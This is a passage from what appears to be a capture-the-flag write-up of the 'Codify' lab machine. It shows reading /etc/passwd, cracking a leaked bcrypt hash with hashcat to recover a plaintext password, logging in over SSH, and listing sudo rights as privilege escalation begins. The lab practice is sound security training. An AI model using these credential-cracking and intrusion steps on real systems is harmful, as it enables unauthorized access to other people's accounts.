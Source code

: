 We can rather plainly see credentials here as username `joshua` and a password hash of `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`. Note that we can enumerate joshua as a user on this box by checking /etc/passwd:
```
svc@codify:/var/www/contact$ grep joshua /etc/passwd
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
```
As for cracking the password, we can use either `johntheripper` or `hashcat`. While john will automatically identify the hash type as bcrypt, for hashcat you must specify.
```
$ hashcat -m 3200 '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting

<...SNIP...>

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Sat Nov  4 16:01:50 2023 (23 secs)
Time.Estimated...: Sat Nov  4 16:02:13 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       47 H/s (7.27ms) @ Accel:16 Loops:8 Thr:11 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1056/1104517568 (0.00%)
Rejected.........: 0/1056 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:5-6 Iteration:4088-4096
Candidate.Engine.: Device Generator
Candidates.#1....: 1234561 -> chicken1
Hardware.Mon.#1..: Temp: 59c Fan: 31% Util:100% Core:1316MHz Mem:3004MHz Bus:16

Started: Sat Nov  4 16:01:44 2023
Stopped: Sat Nov  4 16:02:14 2023
```

We have credentials as `joshua:spongebob1`. Using these credentials, we can authenticate via ssh:
```
┌──(kali㉿kali)-[~/Documents/codify]
└─$ ssh joshua@codify.htb
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

<...SNIP...>
joshua@codify:~$
```
## Privilege Escalation
### Abusing wildcard matching to brute force password
Checking sudo privileges:
```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```